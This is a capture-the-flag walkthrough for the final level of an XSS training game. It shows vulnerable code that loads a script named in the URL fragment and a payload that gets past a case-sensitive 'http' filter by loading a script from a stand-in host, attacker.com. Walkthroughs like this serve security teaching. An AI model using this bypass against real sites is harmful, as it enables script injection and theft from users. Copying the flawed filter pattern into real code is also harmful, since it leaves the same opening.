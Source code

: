 
# Level 6: Follow the &#128007;

## Challenge Overview
- Level 6 is the **final challenge** and tests your understanding of **external script loading**.
- The application loads external resources or scripts based on URL fragments.
- **Objective**: Inject JavaScript by controlling which script gets loaded.
- **URL Structure**: `https://xss-game.appspot.com/level6/frame#[SCRIPT_PATH]`

## The Vulnerability
The application has code similar to this:
```js
function includeGadget(url) {
	var scriptEl = document.createElement('script');
  
	// This will totally prevent us from loading evil URLs!
	if (url.match(/^https?:\/\//)) {
		setInnerText(document.getElementById("log"),
		"Sorry, cannot load a URL containing \"http\".");
		return;
	}

	// Load this awesome gadget
	scriptEl.src = url;
	document.head.appendChild(scriptEl);
}

function getGadgetName() { 
	return window.location.hash.substr(1) || "/static/gadget.js";
}

includeGadget(getGadgetName());
```
The application takes a URL from `window.location.hash` and loads it as a **script without validation**.

## Understanding the Attack Vector
The application attempts to block external scripts with a regex check:
```js
if (url.match(/^https?:\/\//)) {
	return; // Block URLs starting with http:// or https://
}
```
The regex `/^https?:\/\//` is **case-sensitive**.

## Solution
The Payload:
```
HTTPS://attacker.com/xss-external.js
```
Full URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://attacker.com/xss-external.js
```
